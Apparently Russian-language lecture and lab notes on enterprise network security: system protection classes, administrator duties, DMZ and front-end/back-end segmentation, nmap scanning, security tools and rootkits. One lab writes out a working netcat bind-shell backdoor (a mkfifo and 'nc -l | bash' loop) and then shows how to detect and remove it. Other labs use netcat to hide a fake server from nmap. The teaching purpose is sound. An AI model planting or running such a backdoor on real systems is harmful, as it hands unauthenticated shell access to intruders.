




# Модуль 1. Периметры безопасности и размещение сервисов в сети предприятия

## Обзор моделей безопасности и обязанностей администратора безопасности компьютерной сети

[Должностная инструкция aдминистраторa информационной безопасности](https://clck.ru/RLQU6)

[Должностная инструкция администратора безопасности компьютерных систем и сетей](https://clck.ru/RLQVR)

[Руководящий документАвтоматизированные системы. Защита от несанкционированного доступа к информации Классификация автоматизированных систем и требования по защите информации](https://clck.ru/DXeeB)

**Важный факт!**
*Вопросы информационной безопасности можно рассматривать только 
при наличии четко определенных конфликтующих сторон.*

Сокращения:
> АС - автоматизированные системы
> НСД - несанкционированный доступ
> СЗИ - система защиты информации
> СЗИ НСД - система защиты информации от несанкционированного доступа

1. Классификация распространяется на все действующие и проектируемые АС учреждений, организаций и предприятий, обрабатывающие конфиденциальную информацию.
2. Деление АС на соответствующие классы по условиям их функционирования с точки зрения защиты информации необходимо в целях разработки и применения обоснованных мер по достижению требуемого уровня защиты информации.
3. Дифференциация подхода к выбору методов и средств защиты определяется важностью обрабатываемой информации, различием АС по своему составу, структуре, способам обработки информации, количественному и качественному составу пользователей и обслуживающего персонала.
4. Необходимыми исходными данными для проведения классификации конкретной АС являются:

	* перечень защищаемых информационных ресурсов АС и их уровень конфиденциальности;
	* перечень лиц, имеющих доступ к штатным средствам АС, с указанием их уровня полномочий;
	* матрица доступа или полномочий субъектов доступа по отношению к защищаемым информационным ресурсам АС;
	* режим обработки данных в АС.

1. К числу определяющих признаков, по которым производится группировка АC в различные классы, относятся:

	* наличие в АС информации различного уровня конфиденциальности;
	* уровень полномочий субъектов доступа АС на доступ к конфиденциальной информации;
	* режим обработки данных в АС - коллективный или индивидуальный.

1. Устанавливается три группы и девять классов защищенности АС от НСД к информации.

	- Третья группа включает АС, в которых работает один пользователь. Группа содержит два класса - 3Б и 3А.
	- Вторая группа включает АС, в которых работает много пользователей с одинаковыми правами. Группа содержит два класса - 2Б и 2А.
	- Первая группа включает многопользовательские АС. Группа содержит пять классов - 1Д, 1Г, 1В, 1Б и 1А.

*Примеры*

### Калькулятор Windows.

С т.з. данной программы все пользователи - один. Т.е. категория - 3.

### Windows 9x

В системе присутствует "Окно входа в систему"...

... т.е. пользователи различаются. Но из-за ограничений файловой системы FAT(VFAT) 
их права не разграничены. Т.е. категория 2.

### Ubuntu Linux

Как мы знаем, в большинстве современных ОС имеется разделение прав доступа к объектам. Т.е. Ubuntu (например) - категория 1.

### Вопросы:
1) Правомочно ли рассматривать Калькулятор Windows как АС?

2) Приведите примеры АС II категории?

3) Определите категорию АС: сайт статической верстки, обновление выполняется по FTP.

### Основные требования к АС

Идентификация, проверка подлинности и контроль доступа субъектов

Регистрация и учет: входа (выхода) субъектов доступа в (из) систему(ы) (узел сети)

Регистрация и учет: выдачи печатных (графических) выходных документов

Регистрация и учет: запуска (завершения) программ и процессов (заданий, задач)

Регистрация и учет: доступа  программ  субъектов  доступа  к  файлам, 

Регистрация и учет: доступа к терминалам, ЭВМ, узлам сети ЭВМ, каналам связи, внешним устройствам ЭВМ, программам, томам, каталогам, файлам, записям, полям записей.

Регистрация и учет: изменения полномочий субъектов доступа.

 - дата и время входа (выхода) субъекта доступа в систему (из системы) или загрузки (останова) системы.
 - результат   попытки   входа:   успешная   или   неуспешная 
 - несанкционированная;
 - идентификатор (код или фамилия) субъекта, предъявленный при попытке доступа;
 - должен  проводиться  учет  всех  защищаемых  носителей  информации  с помощью их маркировки и с занесением учетных данных журнала (учетную карточку);
 - учет защищаемых носителей должен проводиться в журнале с регистрацией их выдачи.

Обеспечение целостности программных средств и обрабатываемой информации

 - целостность СЗИ НСД проверяется при загрузке системы по контрольным суммам компонент СЗИ;
 - целостность  программной  среды  обеспечивается  использованием трансляторов с языков высокого уровня и отсутствием средств модификации объектного  кода  программ  в  процессе  обработки  и  хранения защищаемой информации;
 - должно проводиться периодическое тестирование функций СЗИ НСД при изменении программной среды и персонала АС с помощью тест-программ, имитирующих попытки НСД;
 - должны  быть  в  наличии  средства  восстановления  СЗИ  НСД, предусматривающие ведение двух копий программных средств СЗИ НСД и их периодическое обновление и контроль работоспособности.

Наличие администратора (службы) защиты информации в АС

Периодическое тестирование СЗИ НСД

Наличие средств восстановления СЗИ НСД

### Задачи и функции Администратора информационной безопасности

- Kонтроль эффективности защиты информации;
- Cопровождение СЗИ от  НСД и основных технических средств и систем;
- Kонтроль разграничения доступа.
- Kонтроль соответствия действий пользователей АС требованиям.
- Участие на стадии проектирования (внедрения) АС в разработке технологии обработки информации ограниченного доступа (далее – информации) по вопросам:
	- организации порядка учета, хранения и обращения с документами и носителями информации;
  - определения степени секретности отдельных документов, носителей и массивов информации;
  - подготовки инструкций, определяющих задачи, функции, ответственность, права и обязанности  администраторов и пользователей АС по вопросам защиты информации, а также ответственных по защите информации в процессе автоматизированной обработки информации.
- Сопровождение СЗИ от НСД к ней, в том числе средств криптографической защиты информации.
- Контроль соответствия общесистемной программной среды стандарту (контроль целостности программного обеспечения) и проверка включаемых в АС новых программных средств.
- Методическое руководство работой администраторов и пользователей АС в вопросах обеспечения информационной безопасности.
- Ведение переченя установленных в подразделениях ОТСС, СЗИ от НСД и перечень задач, решаемых с их использованием.
- Непосредственное управление режимами работы и административную поддержку функционирования \ применяемых на рабочих станциях специальных программных и программно-аппаратных СЗИ от НСД.
- Периодически проверять состояние используемых СЗИ от НСД, осуществлять проверку правильности их настройки (выборочное тестирование).
- Вести журнал учета нештатных ситуаций, фактов вскрытия и опечатывания, защищенных СВТ, выполнения профилактических работ, установки и модификации аппаратных и программных СЗИ.
- Проводить работу по выявлению возможности вмешательства в процесс функционирования АС и осуществления НСД к информации и техническим средствам РС.
- Докладывать руководству о выявленных угрозах безопасности информации, обрабатываемой в АС, об имевших место попытках НСД к информации и техническим средствам РС.

## Разделение сервисов сети предприятия 

### Вариант 1. Плоская сеть

В данном варианте все узлы корпоративной сети содержатся в одной, общей для всех сети («Внутренняя сеть»), в рамках которой коммуникации между ними не ограничиваются. Сеть подключена к Интернет через пограничный маршрутизатор/межсетевой экран.

Плюсы варианта:

 - Минимальные требования к функционалу IFW (можно сделать практически на любом, даже домашнем роутере).
	
 - Минимальные требования к знаниям специалиста, осуществляющего реализацию варианта.

Минусы варианта:

  - Минимальный уровень безопасности. В случае взлома, при котором Нарушитель получит контроль над одним из опубликованных в Интернете серверов, ему для дальнейшей атаки становятся доступны все остальные узлы и каналы связи корпоративной сети.

### Вариант 2. DMZ

Для устранения этого недостатка узлы сети, доступные из Интернет, помещают в специально выделенный сегмент – демилитаризованную зону (DMZ). DMZ организуется с помощью межсетевых экранов, отделяющих ее от Интернет 
(IFW) и от внутренней сети (DFW).

При этом правила фильтрации межсетевых экранов выглядят следующим образом:

- Из внутренней сети можно инициировать соединения в DMZ и в WAN (Wide Area Network).
- Из DMZ можно инициировать соединения в WAN.
- Из WAN можно инициировать соединения в DMZ.
- Инициация соединений из WAN и DMZ ко внутренней сети запрещена.

Плюсы варианта:

 - Повышенная защищённость сети от взломов отдельных сервисов. Даже если один из серверов будет взломан, Нарушитель не сможет получить доступ к ресурсам, находящимся во внутренней сети (например, сетевым принтерам, системам видеонаблюдения и т.д.).

Минусы варианта:

- Сам по себе вынос серверов в DMZ не повышает их защищенность.
- Необходим дополнительный МЭ для отделения DMZ от внутренней сети.

### Вариант 3. Разделение сервисов на Front-End и Back-End

Одним из вариантов исправления ситуации является разделение функционала сервиса на две части: Front-End и Back-End. При этом каждая часть располагается на отдельном сервере, между которыми организуется сетевое взаимодействие. Сервера Front-End, реализующие функционал взаимодействия с клиентами, находящимися в Интернет, размещают в DMZ, а сервера Back-End, реализующие остальной функционал, оставляют во внутренней сети. Для взаимодействия между ними на DFW создают правила, разрешающие инициацию подключений от Front-End к Back-End.

Плюсы варианта:

  - В общем случае атаки, направленные против защищаемого сервиса, могут «споткнуться» об Front-End, что позволит нейтрализовать или существенно снизить возможный ущерб. Например, атаки типа TCP SYN Flood или slow http read, направленные на сервис, приведут к тому, что Front-End сервер может оказаться недоступен, в то время как Back-End будет продолжать нормально функционировать и обслуживать пользователей.
  - В общем случае на Back-End сервере может не быть доступа в Интернет, что в случае его взлома (например, локально запущенным вредоносным кодом ) затруднит удаленное управление им из Интернет.
  - Front-End хорошо подходит для размещения на нем межсетевого экрана уровня приложений (например, Web application firewall) или системы предотвращения вторжений (IPS, например snort).

Минусы варианта:

  - Для связи между Front-End и Back-End на DFW создается правило, разрешающее инициацию соединения из DMZ во внутреннюю сеть, что порождает угрозы, связанные с использованием данного правила со стороны других узлов в DMZ (например, за счет реализации атак IP spoofing, ARP poisoning и т. д.)
  - Не все сервисы могут быть разделены на Front-End и Back-End.
  - В компании должны быть реализованы бизнес-процессы актуализации правил межсетевого экранирования.
  - В компании должны быть реализованы механизмы защиты от атак со стороны Нарушителей, получивших доступ к серверу в DMZ.

# Лабораторные работы: Развертывание шлюза и сетей предприятия

## Работа с nmap

	student@PC / $ nmap localhost

	Starting Nmap 7.40 ( https://nmap.org ) at 2020-10-12 18:03 +05
	Nmap scan report for localhost (127.0.0.1)
	Host is up (0.000084s latency).
	Other addresses for localhost (not scanned): ::1
	Not shown: 995 closed ports
	PORT     STATE SERVICE
	22/tcp   open  ssh
	25/tcp   open  smtp
	80/tcp   open  http
	631/tcp  open  ipp
	8081/tcp open  blackice-icecap

	Nmap done: 1 IP address (1 host up) scanned in 0.08 seconds
	student@PC / $ nmap -A localhost

	Starting Nmap 7.40 ( https://nmap.org ) at 2020-10-12 18:03 +05
	Nmap scan report for localhost (127.0.0.1)
	Host is up (0.000081s latency).
	Other addresses for localhost (not scanned): ::1
	Not shown: 995 closed ports
	PORT     STATE SERVICE  VERSION
	22/tcp   open  ssh      OpenSSH 7.4p1 Debian 10+deb9u7 (protocol 2.0)
	| ssh-hostkey: 
	|   2048 34:ca:ed:e8:f9:61:1d:4a:6f:35:20:04:1e:2c:6c:a1 (RSA)
	|_  256 12:15:e1:57:9a:92:98:0c:9f:bd:9b:0a:b1:29:bc:8e (ECDSA)
	25/tcp   open  smtp     Exim smtpd 4.89
	| smtp-commands: PC Hello localhost [127.0.0.1], SIZE 52428800, 8BITMIME, PIPELINING, PRDR, HELP, 
	|_ Commands supported: AUTH HELO EHLO MAIL RCPT DATA BDAT NOOP QUIT RSET HELP 
	80/tcp   open  http     Apache httpd 2.4.25 ((Debian))
	|_http-server-header: Apache/2.4.25 (Debian)
	|_http-title: Site doesn't have a title (text/html; charset=UTF-8).
	631/tcp  open  ipp      CUPS 2.2
	| http-methods: 
	|_  Potentially risky methods: PUT
	| http-robots.txt: 1 disallowed entry 
	|_/
	|_http-server-header: CUPS/2.2 IPP/2.1
	|_http-title: Home - CUPS 2.2.1
	8081/tcp open  backdoor No-auth shell (**BACKDOOR**)
	Service Info: Host: PC; OSs: Linux, Unix; CPE: cpe:/o:linux:linux_kernel
	Service detection performed. Please report any incorrect results at https://nmap.org/submit/.
	Nmap done: 1 IP address (1 host up) scanned in 7.61 seconds

## Cозздание бэкдора
	student@PC / $ cd /tmp
	student@PC /tmp/ $ mkfifo fifo_file
	student@PC /tmp/ $ cat fifo_file | nc -l -p 8080 | bash > fifo_file

	while true
	do
		cat fifo_file | nc -l -p 8080 | bash > fifo_file	
	done
	
## Устранение бэкдора
	student@PC / $ netstat -apn | grep 8080
	(Not all processes could be identified, non-owned process info
	 will not be shown, you would have to be root to see it all.)
	tcp        0      0 0.0.0.0:8080            0.0.0.0:*               LISTEN      29656/nc            
	student@PC / $ ps fax | grep 29656
	29779 pts/2    S+     0:00  |   |   \_ grep --color=auto 29656
	29656 pts/4    S+     0:00  |       \_ nc -l -p 8080
	student@PC / $ ps fax | grep -B 3 29656
	 4943 pts/1    Ss+    0:00  |   \_ bash
	12740 pts/2    Ss     0:00  |   \_ bash
	29788 pts/2    R+     0:00  |   |   \_ ps fax
	29789 pts/2    S+     0:00  |   |   \_ grep --color=auto -B 3 29656
	16188 pts/3    Ss+    0:00  |   \_ bash
	29186 pts/4    Ss     0:00  |   \_ bash < родитель
	29655 pts/4    S+     0:00  |       \_ cat aa
	29656 pts/4    S+     0:00  |       \_ nc -l -p 8080
	^^^^^ PID бэкдора
	student@PC / $ kill 29656 бэкдор перезапустился
	student@PC / $ kill 29186 
	student@PC / $ kill -9 29186 бэкдор уничтожен
	student@PC / $ netstat -apn | grep 8080
								пусто!
	student@PC / $ nmap localhost
	Not shown: 996 closed ports
	PORT    STATE SERVICE
	22/tcp  open  ssh
	25/tcp  open  smtp
	80/tcp  open  http
	631/tcp open  ipp
															Порта 8080 нет в списке!

## Настройка шлюза для подключения сети предприятия к Internet

[Обеспечение работоспособности и защиты межсетевого экрана с помощью iptables](https://clck.ru/RLqPk)

[Проброс портов в локальную сеть с помощью iptables](https://clck.ru/RMGKn)

1) Изучить литературу по ссылке.

2) Используя виртуальную машину (или хост) сконфигурировать:

 - Файервол плоской сети
 - Проброс порта 80 на один из внутренних хостов

3) Продемонстрировать результат, используя nmap для тестирования.

[Работа с git](https://www.youtube.com/watch?v=wJARN099DUw)

# Модуль 2 Анализ информационных систем предприятия с точки зрения безопасности

## Обзор сканеров сетей и анализаторов траффика

[21 лучший инструмент Kali Linux для взлома и тестирования на проникновение](https://clck.ru/RMuaG)

### Инструмент Nmap 

Nmap — свободная утилита, предназначенная для разнообразного настраиваемого сканирования IP-сетей с любым количеством объектов, определения состояния объектов сканируемой сети (портов и соответствующих им служб). Изначально программа была реализована для систем UNIX, но сейчас доступны версии для множества операционных систем.

Nmap использует множество различных методов сканирования, таких как UDP, TCP (connect), TCP SYN (полуоткрытое), FTP-proxy (прорыв через ftp), Reverse-ident, ICMP (ping), FIN, ACK, Xmas tree, SYN- и NULL-сканирование. Nmap также поддерживает большой набор дополнительных возможностей, а именно: определение операционной системы удалённого хоста с использованием отпечатков стека TCP/IP, «невидимое» сканирование, динамическое вычисление времени задержки и повтор передачи пакетов, параллельное сканирование, определение неактивных хостов методом параллельного ping-опроса, сканирование с использованием ложных хостов, определение наличия пакетных фильтров, прямое (без использования portmapper) RPC-сканирование, сканирование с использованием IP-фрагментации, поиск уязвимостей SQL Injection, а также произвольное указание IP-адресов и номеров портов сканируемых сетей.

### Инструмент Wireshark 

Wireshark — программа-анализатор трафика для компьютерных сетей Ethernet и некоторых других. Имеет графический пользовательский интерфейс. Изначально проект назывался Ethereal, но, из-за проблем с торговой маркой, в июне 2006 года проект был переименован в Wireshark.

Функциональность, которую предоставляет Wireshark, очень схожа с возможностями программы tcpdump, однако Wireshark имеет графический пользовательский интерфейс и гораздо больше возможностей по сортировке и фильтрации информации. Программа позволяет пользователю просматривать весь проходящий по сети трафик в режиме реального времени, переводя сетевую карту в неразборчивый режим (англ. promiscuous mode).

Программа распространяется под свободной лицензией GNU GPL и использует для формирования графического интерфейса кроссплатформенную библиотеку GTK+ (планируется переход на Qt). Существуют версии для большинства UNIX-подобных систем, в том числе GNU/Linux, Solaris, FreeBSD, NetBSD, OpenBSD, Mac OS X, а также для Windows.

### Инструмент Nessus 

Nessus — программа для автоматического поиска известных изъянов в защите информационных систем. Она способна обнаружить наиболее часто встречающиеся виды уязвимостей, например:
Программа имеет клиент-серверную архитектуру, что сильно расширяет возможности сканирования.
Согласно проведенному порталом securitylab.ru опросу, nessus используют 17 % респондентов 
Прежде всего используется для сканирования портов и определяет сервисы, использующие их. Также проводится проверка сервисов по базе уязвимостей. Для тестирования уязвимостей используются специальные плагины, написанные на языке NASL(Nessus Attack Scripting Language).

### Инструмент John the Ripper 

John The Ripper (досл. Джон-потрошитель) — свободная программа, предназначенная для восстановления паролей по их хешам. Основное назначение программы — аудит слабых паролей в UNIX системах путём перебора возможных вариантов. ПО JtR способно создавать словари любой сложности, а также извлекать хеш из файла, что является одной из самых сильных сторон JtR по сравнению с аналогичными программами. Программа также может выполнять аудит NTLM хешей, Kerberos, и др. Существуют реализации под различные ОС. Весьма популярна из-за поддержки большого количества хешей, автораспознавания хеша и настраиваемого взломщика. Также поддерживает множество модулей, включая сторонние, предоставляющих поддержку MD4 хешей, LDAP и MySQL паролей и т.д. Кроме хешей паролей доступен перебор паролей к архивам, атаки на методы аутентификации (WPA, HMAC,...). Существует кросс-платформенный графический интерфейс Johny - GUI, который требуется устанавливать отдельно. На 2012 год поддерживалось более 30 форматов в jumbo версии. По состоянию на июль 2018 года JtR bleeding-jumbo версия поддерживает 262 формата.
На компьютерном сленге среди разработчиков JtR упоминается, как кровотечение.[источник не указан 424 дня]
Ниже представлен пример вывода программы во время работы в операционной системе Linux.

### Инструмент Snort 

Snort — свободная сетевая система предотвращения вторжений (IPS) и обнаружения вторжений (IDS) с открытым исходным кодом, способная выполнять регистрацию пакетов и в реальном времени осуществлять анализ трафика в IP-сетях.
Создана Мартином Рёшем (англ. Martin Roesch), в дальнейшем развивалась и поддерживалась основанной им компанией Sourcefire (поглощена Cisco в 2013 году).
Выполняет протоколирование, анализ, поиск по содержимому, а также широко используется для активного блокирования или пассивного обнаружения целого ряда нападений и зондирований, таких как попытки атак на переполнение буфера, скрытое сканирование портов, атаки на веб-приложения, SMB-зондирование и попытки определения операционной системы. Программное обеспечение в основном используется для предотвращения проникновения, блокирования атак, если они имеют место.

### Инструмент Nikto 

Nikto — веб-сканер, проверяющий веб-серверы на самые частые ошибки, возникающие обычно из-за человеческого фактора. Проверяет целевой веб-сервер на наличие опасных файлов и исполняемых сценариев, инструментов администрирования базами данных, устаревшего программного обеспечения.
Nikto — это  open-source веб-сканер, однако некоторые файлы, которые он использует для работы, таковыми не являются.
Nikto выиграл "Best IT Security Tools for 2009" от Security-Database в номинации программ с открытым исходным кодом для сканирования приложений.

### Инструмент Tripwire 

Tripwire — программа для мониторинга и предупреждения об изменениях файлов в системе. Проект имеет свободный исходный код, основан на разработках компании Tripwire, Inc. начала 2000-х годов.

Tripwire функционирует как хостовая система обнаружения вторжений и ведет наблюдение и анализ изменений файлов внутри системы. Отслеживания сетевого трафика приложение не производит.

Во время установки Tripwire сканирует файловую систему и сохраняет информацию о каждом найденном файле в базе данных. При последующих запусках программа сканирует те же файлы, сравнивает результаты с сохраненными в базе данных и, при необходимости, сообщает об изменениях пользователю. Для проверки целостности данных используется значения хеш-сумм, что позволяет не хранить полное содержимое файлов.

### Инструмент OSSEC 

OSSEC – это хостовая система обнаружения вторжений (HIDS), свободная и с открытым исходным кодом. Она ведёт анализ системных логов, проверку целостности, наблюдение за реестром ОС Windows, обнаружение руткитов, оповещение в заданное время и если будет обнаружено какое-либо событие. Она предоставляет функцию обнаружения вторжений для большинства операционных систем, включая Linux, OpenBSD, FreeBSD, Mac OS X, Solaris и Windows. Её кроссплатформенная архитектура позволяет легко управлять и наблюдать сразу за несколькими операционными системами. Она написана Даниэлем Б. Сидом, и доступна с 2004 года. 

В июне 2008 года проект OSSEC и все копирайты, принадлежащие лидеру проекта, Даниэлю Б. Сиду, приобрела компания Third Brigade. Компания обязуется совмещать разработку программы вместе с сообществом Open Source и предоставлять коммерческую поддержку и обучение пользователям OSSEC.

## Лабораторные работы

### Определение списка хостов с использованием nmap

	$ nmap 192.168.43.*

Результат:

	Starting Nmap 7.80 ( https://nmap.org ) at 2020-10-13 12:23 +05
	Nmap scan report for gateway (192.168.43.1)
	Host is up (0.025s latency).
	Not shown: 999 closed ports
	PORT   STATE SERVICE
	53/tcp open  domain

	Nmap scan report for microlab (192.168.43.25)
	Host is up (0.000044s latency).
	Not shown: 999 closed ports
	PORT   STATE SERVICE
	22/tcp open  ssh

	Nmap scan report for macrolab (192.168.43.77)
	Host is up (0.025s latency).
	Not shown: 999 closed ports
	PORT   STATE SERVICE
	23/tcp open  telnet

	Nmap scan report for extralab (192.168.43.180)
	Host is up (0.012s latency).
	Not shown: 997 closed ports
	PORT    STATE SERVICE
	22/tcp  open  ssh
	80/tcp  open  http
	631/tcp open  ipp

	Nmap done: 256 IP addresses (4 hosts up) scanned in 6.08 seconds

### Определение типа сервиса на указанном хосте/порту

Используется типовой порт:

	$ nmap -A -p 631 192.168.43.180

Результат:

	Starting Nmap 7.80 ( https://nmap.org ) at 2020-10-13 12:28 +05
	Nmap scan report for extralab (192.168.43.180)
	Host is up (0.0026s latency).
	PORT    STATE SERVICE VERSION
	631/tcp open  ipp     CUPS 2.2
	| http-methods: 
	|_  Potentially risky methods: PUT
	| http-robots.txt: 1 disallowed entry 
	|_/
	|_http-server-header: CUPS/2.2 IPP/2.1
	|_http-title: Home - CUPS 2.2.1

	Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
	Nmap done: 1 IP address (1 host up) scanned in 6.95 seconds

Обнаружен CUPS версии 2.2.1.

Используется "левый" порт и фальшивый сервер:

	echo "HTTP/1.1 200 OK"
	echo "Date: Wed, 11 Feb 2009 11:20:59 GMT"
	echo "Server: Apache"
	echo "X-Powered-By: PHP/5.2.4-2ubuntu5wm1"
	echo "Last-Modified: Wed, 11 Feb 2009 11:20:59 GMT"
	echo "Content-Language: ru"
	echo "Content-Type: text/html; charset=utf-8"
	echo "Connection: close"
	echo ""
	echo "<pre>"
	date
	echo "</pre>"

Peзультат:

	$ nmap -A -p 8080 localhost
	Starting Nmap 7.80 ( https://nmap.org ) at 2020-10-13 12:46 +05
	Nmap scan report for localhost (127.0.0.1)
	Host is up (0.000065s latency).

	PORT     STATE SERVICE    VERSION
	8080/tcp open  http-proxy Apache
	| fingerprint-strings: 
	|   NULL: 
	|     HTTP/1.1 200 OK
	|     Date: Wed, 11 Feb 2009 11:20:59 GMT
	|     Server: Apache
	|     X-Powered-By: PHP/5.2.4-2ubuntu5wm1
	|     Last-Modified: Wed, 11 Feb 2009 11:20:59 GMT
	|     Content-Language: ru
	|     Content-Type: text/html; charset=utf-8
	|     Connection: close
	|     <pre>
	|     2020 12:46:01 +05
	|_    </pre>
	| http-open-proxy: Potentially OPEN proxy.
	|_Methods supported:CONNECTION
	|_http-server-header: Apache
	1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
	SF-Port8080-TCP:V=7.80%I=7%D=10/13%Time=5F855B39%P=x86_64-pc-linux-gnu%r(N
	SF:ULL,111,"HTTP/1\.1\x20200\x20OK\nDate:\x20Wed,\x2011\x20Feb\x202009\x20
	SF:11:20:59\x20GMT\nServer:\x20Apache\nX-Powered-By:\x20PHP/5\.2\.4-2ubunt
	SF:u5wm1\nLast-Modified:\x20Wed,\x2011\x20Feb\x202009\x2011:20:59\x20GMT\n
	SF:Content-Language:\x20ru\nContent-Type:\x20text/html;\x20charset=utf-8\n
	SF:Connection:\x20close\n\n<pre>\n\xd0\x92\xd1\x82\x2013\x20\xd0\xbe\xd0\x
	SF:ba\xd1\x82\x202020\x2012:46:01\x20\+05\n</pre>\n");

Peзультат на порту 18765:

	$ nmap -A localhost
	...
	PORT    STATE SERVICE VERSION
	22/tcp  open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.1 (Ubuntu Linux; protocol 2.0)
	631/tcp open  ipp     CUPS 2.3
	...

Фальшивый сервер *не обнаружен!*

	$ while true; do cat a | nc -l -p 18765 | ./http.sh > a; done
	GET / HTTP/1.0

	$ while true; do cat a | nc -l -p 8080 | ./http.sh > a; done
	GET / HTTP/1.0

	OPTIONS / HTTP/1.0

	GET / HTTP/1.1
	Host: localhost:8080
	Connection: close
	User-Agent: Mozilla/5.0 (compatible; Nmap Scripting Engine; https://nmap.org/book/nse.html)

	PROPFIND / HTTP/1.1
	Depth: 1
	Content-Length: 0
	Host: localhost:8080
	Connection: close
	User-Agent: Mozilla/5.0 (compatible; Nmap Scripting Engine; https://nmap.org/book/nse.html)

	GET / HTTP/1.1
	Host: localhost:8080
	Connection: close
	User-Agent: Mozilla/5.0 (compatible; Nmap Scripting Engine; https://nmap.org/book/nse.html)

	GET / HTTP/1.1
	Host: localhost:8080
	Connection: close
	User-Agent: Mozilla/5.0 (compatible; Nmap Scripting Engine; https://nmap.org/book/nse.html)

Сервер возвращает случайные коды:

	$ while true; do cat a | nc -l -p 8080 | ./http.sh > a; done
	GET / HTTP/1.0

	ieU��random1random2random3random4
	                                 /
	GET / HTTP/1.1
	Connection: close
	Host: localhost:8080
	User-Agent: Mozilla/5.0 (compatible; Nmap Scripting Engine; https://nmap.org/book/nse.html)

	GET /favicon.ico HTTP/1.1
	Connection: close
	Host: localhost:8080
	User-Agent: Mozilla/5.0 (compatible; Nmap Scripting Engine; https://nmap.org/book/nse.html)

	�f��Q�%�/N�+����l[��f#B�i�

	                          H� �Vd�
	                                 �b%�]eWP]�25>�F�w�%شJueJ�395/�,�0��̨̩̪���������]�a�W�S�+�/������������`�V�R�$�(kj�s�w�
	�8���	�2��ED������Q������P=�<���A�
	                                    	localhost

	*(
	GET / HTTP/1.1
	Connection: close
	Host: localhost:8080
	User-Agent: Mozilla/5.0 (compatible; Nmap Scripting Engine; https://nmap.org/book/nse.html)

Результат:

	$ nmap -A localhost -p 8080
	PORT     STATE SERVICE     VERSION
	8080/tcp open  http-proxy?

Сервер не распознан. Что не мешает злоумышленнику работать с ним. 

Вывод. От nmap можно спрятать сервер, если разместить его вне диапазона портов, 
сканируемых по-умолчанию и нарушить алгоритм его работы. 
На действия злоумышленника это никак не повлияет.

### Расшифровка http-траффика с Wireshark

Провели сканирование фэйкового http-сервера и получили следующий траффик:

### Задача:
Провести сканирование собственного хоста с проброшенным портом и:

- определить факт сканирования по данным wireshark
- определить используемое ПО

## Подробнее про сканирование

Cocтояния порта:
- open (открытый порт)  — порт открыт, и служба принимает TCP- или UDP-соединения по этому порту (данный порт наиболее уязвим для взлома);
- filtered — порт закрыт брандмауэром, иной блокирующей программой или службой (правила роутера, аппаратный брандмауэр и т.п.);
- closed — порт закрыт, так как нет службы или иной программы, прослушивающей этот порт на компьютере.
- unfiltered — Nmap не смог точно определить, открыт порт или закрыт, обычно такое значение присваивается при сканировании методом ACK 

*Вывод:*

Закрыть порт нельзя никак кроме завершения процесса, его открывшего. Отфильтровать - можно.
Нет смысла "закрывать" на fw порты, которые не прослушиваются ни одной программой.

Подробнее:

[Сетевой сканер Nmap как средство аудита локальной сети](https://clck.ru/RN7sk)

## Руткиты и их обнаружение

[Установка, настройка и использование сканера уязвимостей chkrootkit](https://clck.ru/RN8GE)

Руткит (англ. rootkit, то есть «набор root-а») — набор программных средств (например, исполняемых файлов, скриптов, конфигурационных файлов), обеспечивающих:

 - маскировку объектов (процессов, файлов, каталогов, драйверов);
 - управление (событиями, происходящими в системе);
 - сбор данных (параметров системы).

